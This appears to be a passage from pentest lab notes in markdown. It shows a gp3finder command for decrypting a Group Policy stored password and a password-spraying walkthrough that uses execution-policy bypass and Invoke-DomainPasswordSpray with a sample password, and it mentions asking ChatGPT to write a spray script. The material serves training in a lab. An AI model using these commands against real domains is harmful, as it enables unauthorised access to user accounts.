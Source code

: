 - now type in the following
```powershell
gp3finder_v5.0.exe -D uiVkd5Daq7Tb2VqmH0BV5w
```

![[Pasted image 20231119073730.png]]

## 1.4 PASSWORD SPRAYING ATTACKS
-------
Most of the time, brute-force attacks employ a technique known as a dictionary attack. However, the success of such attacks is not guaranteed due to network lockout policies. This issue can be mitigated by attempting to use a single password across all user accounts. In the context of network security, this practice is commonly referred to as password spraying. It is worth noting that attackers often suggest including the company name followed by the current year or "2021" as part of the password, thereby increasing their chances of success.

- In order to proceed, kindly duplicate the file '*DomainPasswordSpray.ps1*' from the tools directory onto *Client1*. Additionally, it is feasible to request **ChatGPT** to create a password spray script in **.ps1** format for your use.

From a command prompt, please type the following: - 
```powershell
# To open powershell
# Open up CMD first and then run this from the command line
powershell.exe -exec bypass

# To change directory
cd C:\Users\test\Desktop
Import-Module .\DomainPasswordSpray.ps1

# To start the spray attack
Invoke-DomainPasswordSpray -password uadtargetnet21
```
![[DomainPasswordSpray.ps1]]

![[Pasted image 20231123171020.png]]
> the script 